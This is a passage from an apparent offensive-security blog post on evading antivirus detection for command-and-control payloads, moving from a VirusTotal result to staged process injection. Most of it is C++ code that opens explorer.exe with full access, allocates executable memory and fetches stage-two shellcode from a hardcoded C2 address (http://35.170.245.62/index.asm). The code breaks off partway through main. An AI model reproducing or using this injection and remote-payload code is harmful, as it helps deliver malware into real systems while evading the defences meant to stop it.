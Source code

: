<img src="https://blog.spookysec.net/img/Pasted image 20220213003049.png">
https://www.virustotal.com/gui/file/dea855ce961772987be7eea1127fa49c6e85ca2bfbc1b43885b359a05496787e/details

This time, we notice significantly less "CobaltStrike" and more generic C2 signatures.

### Process Injection - Staged
We're going to use the exact same method as before, just this time, add a staged component to it. We're going to use the urlmon library in C++ to make an HTTP call to retrieve stage 2 (our shellcode) from a Web Server. It's important to note that when embeding the C2 URL as a string, running ``strings`` on the binary will reveal your C2 URL. There are various techniques you could do to bypass this, however, in this post, we're strictly focusing on evading Anti-Virus. We used one additional Windows API in this section
- URLOpenBlockingStreamA - Retrieves files from a HTTP/HTTPS stream

```c++
#include <iostream>
#include <Windows.h>
#include <tlhelp32.h>
#include <locale>
#include <string>
#include <urlmon.h>
#include <cstdio>
#pragma comment(lib, "urlmon.lib")

using namespace std;

HANDLE GetProcesHandleName() {
    HANDLE ProcessHandle;


    PROCESSENTRY32 procEntry;
    procEntry.dwSize = sizeof(PROCESSENTRY32);

    HANDLE allProcesses;
    allProcesses = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, NULL);

    if (Process32First(allProcesses, &procEntry) == TRUE) {
        while (Process32Next(allProcesses, &procEntry) == TRUE) {
            wchar_t newtargetProcName[1024] = L"explorer.exe";

            if (wcscmp(procEntry.szExeFile, newtargetProcName) == 0) {
                cout << "Process ID Found! PID: " << procEntry.th32ProcessID << "\n";
                ProcessHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, procEntry.th32ProcessID);
                return ProcessHandle;
            }

        }

    }

}

int main()
{
    HANDLE hProcess;
    SIZE_T dwSize = 461;
    DWORD flAllocationType = MEM_COMMIT | MEM_RESERVE;
    DWORD flProtect = PAGE_EXECUTE_READWRITE;
    LPVOID memAddr;
    SIZE_T bytesOut;
    hProcess = GetProcesHandleName();
    const char* c2URL = "http://35.170.245.62/index.asm";
    IStream* stream;
```